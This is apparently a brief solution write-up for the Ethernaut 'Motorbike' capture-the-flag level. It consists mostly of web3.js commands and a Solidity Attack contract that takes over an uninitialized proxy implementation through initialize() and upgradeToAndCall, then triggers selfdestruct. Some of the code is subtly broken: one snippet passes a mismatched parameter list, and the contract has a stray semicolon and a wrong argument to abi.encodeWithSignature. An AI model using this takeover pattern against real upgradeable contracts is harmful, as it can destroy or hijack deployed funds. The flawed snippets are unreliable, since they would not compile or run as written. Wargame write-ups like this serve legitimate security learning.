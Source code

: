 ## Description

```
const functionSignature = '_setImplementation(address)';
const parameters = [player];

const functionSelector = web3.eth.abi.encodeFunctionSignature(functionSignature);

const encodedParameters = web3.eth.abi.encodeParameters(['address', 'bytes'], parameters);

const callData = functionSelector + encodedParameters.slice(2);
await web3.eth.call({
to: contract.address,
data: callData
});
```
await web3.eth.getStorageAt(contract.address, "0x360894a13ba1a3210667c828492db98dca3e2076cc3735a920a3ca505d382bbc");

```
let destroy = web3.eth.abi.encodeFunctionSignature("destroy()")
data2 = web3.eth.abi.encodeFunctionCall({ name: 'upgradeToAndCall', type: 'function', inputs: [{ type: 'address', name: 'newImplementation' },{ type: 'bytes', name: 'data' }]}, ["0x87ee3369064c79A065728c14882ad9020051B42f",destroy]);

await web3.eth.sendTransaction({from:player, to:"0x0719e1557ba3f89d5004c57871142e4ecf42ffd2", data:data2})
```

```
contract Attack {
    Engine public engine;

    function attack(address _engine)public {
        engine = Engine(_engine);
        engine.initialize();
        engine.upgradeToAndCall(address(this), abi.encodeWithSignature(this.destr.selector;));
    }

    function destr() public {
        selfdestruct(payable(0));
    }
}
```
It took a long time because after selfdestruct the contract restores bytecode. I went to read and realized that now it doesn't work.

Not nice that there is no last checkbox in ethernaut :)